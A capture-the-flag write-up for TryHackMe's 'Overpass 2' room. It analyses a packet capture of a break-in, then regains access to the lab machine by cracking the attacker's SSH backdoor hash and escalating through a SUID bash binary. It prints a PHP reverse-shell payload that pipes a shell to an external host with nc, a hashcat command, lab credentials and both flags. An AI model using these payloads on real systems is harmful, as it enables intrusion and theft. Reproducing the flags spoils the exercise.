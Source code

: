 ###### Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
Room: https://tryhackme.com/room/overpass2hacked
##

After downloading the **overpass2.pcapng** file, we can open it using Wireshark.  

Filtering the results using **tcp.stream eq 0** we can easily find a GET Request from **/development** directory.  

```
GET /development/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 21 Jul 2020 01:38:24 GMT
If-None-Match: "588-5aae9add656f8-gzip"

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:33:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Tue, 21 Jul 2020 01:38:24 GMT
ETag: "588-5aae9add656f8-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 675
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

..........uTMo.0...W0:.s.v.Vv....aH..........!.I.a.}.l.I....P...#.>.\>.~.<A..]..p..B.3..C.1.......
..O2.4.m.....d.;KG~..z@I.[-...b....pR.>.f.....b..3.
....".}..........
\]:ln...+..q......p...8..K6_#...o.`..C^y..A..A*.h...7..Oy#.YDL.....|..iu?.C...v.~.....8....._[.'7#vC..j.Pi.}...Z..U......k.e.w[.B..-G.$....."P..kVr1qf...sQ.......k...
...xM.3..{....z..#..c5<.xd.+}...`M ..AE74a"M.r...=..u
r......%...T..!R~.v.e..SNA....S......c.9..?....F.L.../.f.....T.k$..m.%......z.....m..f.IDh...G@..;...6......0..=..z.9..M.i,.]...*(k
...qA..............1n:.T+\..g&E..H..6M.E.3l...J.V.5%b.p...'$#."..xjH..Q^D.<O.J.LK.....;...#.<K.J..8.....3.n.(Rd'tG?.
.c.1..8...^..N....7..7.s............
```

If we follow that TCP STREAM, the next stream reveals us that the payload was uploaded to **/development/uploads/payload.php**.   

**payload content**   
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

Fast forward to Stream 3, we see that user **james**'s password is **whenevernoteartinstant**.    
```
su james
Password: whenevernoteartinstant
james@overpass-production:/var/www/html/development/uploads$ cd ~
```

Also, the attackers downloaded a SSH-Backdoor from [here](https://github.com/NinjaJc01/ssh-backdoor).    

**default hash for backdoor**  
```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
**hardcoded backdoor salt**   
```
1c362db832f3f864c8c2fe05f2002a05
```
Both the default hash and the salt can be found if we check the source code [here](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go).    

**backdoor hash the attacker used**  
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

I used a hash analyzer and the discovered that the hash is SHA-512.  
**hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt**  

**syntax of the content from hash**
```
hash:salt
```

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

So the hash was cracked. The password is **november16**.   

To connect back to the machine, we can authenticate via SSH james:november16.  
Note that the SSH is open on port 2222, not on port 22.  

**First flag is located at /home/james and is thm{d119b4fa8c497ddb0525f7ad200e6567}** **[1]**.  

Also, on the home directory of user james, we can see something interesting.  
```
-rwsr-sr-x 1 root  root  1.1M Jul 22  2020 .suid_bash
```

Note the SUID bit set for that binary, meaning we can run bash with elevated privileges.

**./.suid_bash -p**
```
.suid_bash-4.4# whoami
root
```

**Second flag, at /root/root.txt is thm{d53b2684f169360bb9606c333873144d}** **[2]**.  


